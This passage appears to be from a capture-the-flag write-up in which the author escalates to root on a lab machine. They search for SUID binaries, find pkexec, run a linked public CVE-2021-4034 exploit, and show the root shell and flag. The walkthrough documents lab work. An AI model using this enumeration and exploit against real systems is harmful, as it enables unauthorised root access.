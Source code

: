 ## Privilege Escalation root

Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
will@watcher:/home/will$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
will@watcher:/home/will$ nano exploit.py
will@watcher:/home/will$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f3cf7e68000 at 0x7f3cf5a6e828>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1000(will) groups=1000(will),4(adm)
# cat/root/flag_7.txt
  FLAG{w[removed]s}
```

solved! :)